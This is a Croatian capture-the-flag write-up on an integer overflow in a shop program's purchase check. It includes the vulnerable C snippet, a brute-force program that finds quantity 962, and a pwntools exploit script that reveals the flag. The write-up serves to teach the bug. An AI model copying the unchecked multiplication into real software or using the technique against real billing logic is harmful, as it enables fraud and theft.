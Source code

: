 # Writeup

## Otkrivanje ranjivosti

Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **integer overflow** kod kupovine stvari. 

Isječak koda koji sadrži ranjivost:
```
if(dostupneStvari[opcija-1].cijena * kolicina <= novac){
		novac-= dostupneStvari[opcija-1].cijena;
		printf("Kupljeno: %s (%dx)\n", dostupneStvari[opcija-1].ime,kolicina);
		
		if(opcija-1 == 4){
			tajnaStvarKupljena();
		}
		
		return;
}
```
Kako bi izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` bio istinit, može se za količinu stvari _Super tajna stvar_ unijeti veliki broj koji će zbog integer overflow-a zadovoljiti izraz.

## Objašnjenje ranjivosti

Najveća moguća vrijednost varijable tipa int u C programskom jeziku je ```2 147 483 647```. Ako integer varijabla sadrži tu najveću vrijednost i inkrementira se za jedan, tada će nova vrijednost biti ```-2 147 483 648```. To se događa zbog integer overflow-a, gdje se nakon postizanja najveće moguće vrijednosti 32-bitnog int tipa (2 147 483 647) inkrementiranjem prelazi u negativni raspon zbog dvokomplementnog prikaza brojeva, gdje se najviši bit koristi za znak broja.

Na sljedećoj slici prikazan je primjer integer overflow-a u 8-bitnom dvokomplementnom prikazu brojeva (32-bitni prikaz je sličan).

![slika](https://github.com/user-attachments/assets/cf8c8832-7cf6-407f-92f5-4d14117470fb)

Kod dvokomplementnog prikaza brojeva, najznačajniji bit se koristi za mogućnost spremanja negativnih brojeva. U ovom primjeru, najznačajniji bit nosi vrijednost ```-128```. Ako se na vrijednost ```127``` (koja u binarnom prikazu ima sve jedinice osim najznačajnijeg bita) pribroji jedan, tada će se sve jedinice pretvoriti u nule i jedinica će se prenijeti na najznačajniji bit.

U zadatku dolazi do integer overflowa prilikom umnoška cijene i količine. Budući da su obje varijable tipa ```int```, i njihov umnožak je također tipa ```int```. Zbog ograničenja raspona ovog tipa podatka, ako je rezultat umnoška prevelik za pohranu, dolazi do integer overflow-a.

Izrađen je kratak program koji traži najmanju količinu koja kada se pomnoži s cijenom stvari _Super tajna stvar_ uzrokuje integer overflow:
```
#include <stdio.h>

int main()
{
    int cijena = 2232350;
    int kolicina = 1;
    for(;kolicina<99999999;kolicina++){
        int ukupno = kolicina*cijena;
        
        if(ukupno<=0){
            printf("%d\n",kolicina);
            printf("%d\n",ukupno);
            break;
        }
    }

    return 0;
}
```

Izlaz programa:
```
962
-2147446596
```

Iz izlaza programa vidimo kako je najmanja količina koja uzrokuje integer overflow jednaka ```962```. Umnoškom cijene i količine dobi se ```-2 147 446 596```

Izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` postaje ```-2 147 446 596 <= novac```. Pošto je ```novac``` uvijek veći ili jednak nuli, izraz postaje istinit.


## Iskorištenje ranjivosti

Za izradu rješenja može se napraviti Python skripta koja iskorištava integer overflow ranjivost u zadatku. Skripta koristi ```pwntools``` biblioteku za interakciju s kompajliranim programom, omogućujući slanje podataka i primanje odgovora od procesa pokrenutog programa. Nakon pokretanja programa, skripta odabire opciju kupnje stvari (3), zatim bira stvar _Super tajna stvar_ (5) i na kraju šalje količinu koja  uzrokuje integer overflow (962).

```
from pwn import *

io = process("./kupovina") #da možemo slati i primati podatke od procesa
elf = ELF("./kupovina") #omogucava pwntools-u da može procitati gdje su adrese funkcija

# = = = START

print(io.recvuntil(b"Odabir:")) #pricekaj ovaj output, pa zatim nastavi
# b ispred stringa veli pythonu da on string tretira kao bytove i pwntools očekuje podatke u obliku bajtova
# python koristi UTF-8 stringove pa dolaze upozorenja ako se ne koristi b

io.sendline(b"3") #biranje opcije 3

print(io.recvuntil(b"Odaberite stvar koju zelite kupiti (0 za izlaz):")) 
io.sendline(b"5") #biranje opcije 5

payload = b""
payload += b"962"

# = = = END

io.sendline(payload) #slanje exploita
print(payload)

io.interactive() #prebacuje stdin i stdout na standardni ulaz i izlaz, vraća kontrolu korisniku (terminalu)

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[1nt3ger_0VERFL0W]```.
